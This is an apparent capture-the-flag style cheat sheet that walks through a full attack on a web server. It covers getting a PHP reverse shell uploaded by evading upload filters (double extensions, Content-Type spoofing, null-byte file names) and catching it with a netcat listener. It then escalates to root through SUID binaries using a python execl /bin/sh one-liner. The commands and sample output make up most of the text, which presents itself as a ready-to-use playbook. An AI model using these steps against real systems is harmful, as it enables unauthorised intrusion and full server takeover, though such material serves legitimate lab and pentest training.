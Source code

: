 # Reverse Shell

Hacker's machine acts as a server. 
It opens a communication channel on a port and waits for incoming connections. 
Victim's machine acts as a client and initiates a connection to hackers's listening server.

## PHP Reverse Shell

### Script

1. Download PHP script from https://github.com/pentestmonkey/php-reverse-shell
2. Change `IP` and `PORT`to your host IP and random PORT.


### How to bypass validation in uploading forms

* Try to rename php file differently, eg. changing extensions to .phtml or .php.jpg
* Try to change Content-type filtering i.e., changing Content-Type: txt/php to image/jpg
* Try to add special characters to bypass pic.php%00 , pic.php%0a, pic.php%00

### Script deployment & access granting

1. Keep listening on port you choose and included in PHP script.
```
$ nc -lnvp <port>
```
2. Run script or wait if someone will run it. You should get similar output from netcat command:
```
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:17:34 up 28 min,  0 users,  load average: 0.00, 0.01, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And now you have access to www-data user. 

### Escalete to root

1. Look for the files with SUID permission:
```
$ find / -type f -user root -perm -4000 2>/dev/null
```

2. If you have /usr/bin/python on a list, use tool Gtfobins -> https://gtfobins.github.io/
```
$ python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’
```

3. Check who are you:
```
$ whoami
root
```

Root is yours! Congrats!

